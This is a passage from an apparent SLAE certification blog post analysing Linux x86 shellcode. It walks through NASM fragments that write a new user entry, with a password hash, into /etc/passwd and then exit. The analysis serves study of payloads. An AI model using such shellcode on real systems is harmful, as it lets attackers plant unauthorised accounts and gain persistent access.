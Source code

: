 The next bit of code pushes on the stack the memory address of new `/etc/passwd` line that'll get added. Then the code jumps further down in the code.
```nasm
xchg eax,ebx             ; eax = */etc//passwd, ebx = 3
call dword 0x4d          ; put username entry on the stack
```

The code lands here, where the `write` function is called to add the username into the file.

`write(int fd, const void *buf, size_t count)`

```nasm
pop ecx                       ; username entry: slae:AzH43ypX/zepc...
mov edx, DWORD PTR [ecx-0x4]  ; len
push 0x4                      ; eax = 0x4 -> sys_write
pop eax
int 0x80
```

Then finally, the program exits:

```nasm
push 0x1                 ; eax = 0x1 -> sys_exit
pop eax
int 0x80
```

---------------------------------------

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1236

All source files can be found on GitHub at [https://github.com/slemire/slae32](https://github.com/slemire/slae32)